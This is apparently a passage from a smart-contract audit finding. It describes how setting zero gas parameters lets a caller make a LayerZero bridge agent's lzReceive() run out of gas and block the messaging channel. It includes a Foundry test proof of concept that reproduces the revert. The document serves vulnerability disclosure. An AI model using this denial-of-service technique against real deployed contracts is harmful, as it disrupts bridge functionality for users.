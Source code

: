 ```solidity
           abi.encodePacked(
               uint16(2),
               _gParams.gasLimit,
               _gParams.remoteBranchExecutionGas,
               rootBridgeAgentAddress
           )
       );
   }
```

This makes malicious users capable of constantly blocking the communication channel temporarily until `retryPayload()` is executed in Layer Zero's endpoint, effectively DoS'ing the contracts functionality.

### Proof of concept

The following PoC illustrates how the destination `lzReceive()` function can be blocked even if it uses the non-blocking pattern leveraging `excessivelySafeCall()`. By setting a 0 gas params amount, the transaction can effectively run out of gas, making the LayerZero channel be blocked:

```solidity
// Add function in `CoreRootBridgeAgentTest.t.sol`

function testDosOutOfGas() public {

       // Source -> `avaxCoreBridgeAgentAddress`
       // Destination -> `coreBridgeAgent`
       // Trusted remote from Destination's perspective: abi.encodePacked(avaxCoreBridgeAgentAddress, coreBridgeAgent)

       //get some gas
       vm.deal(address(this), 1.5 ether);

       //Gas Params: set to 0 to simulate execution failure on `lzReceive()`
       GasParams memory gasParams = GasParams(0 ether, 0 ether);

        //Get some gas
       vm.deal(address(lzEndpointAddress), gasParams.gasLimit + gasParams.remoteBranchExecutionGas);

       // Prank into endpoint address
       vm.startPrank(lzEndpointAddress);

       vm.expectRevert(); // EvmError: OutOfGas (Message-less reverts happen when there is an EVM error)
       RootBridgeAgent(coreBridgeAgent).lzReceive{gas: gasParams.gasLimit}(
           avaxChainId, abi.encodePacked(coreBridgeAgent, avaxCoreBridgeAgentAddress), 1, bytes("")
       );
   }
```

### Tools used
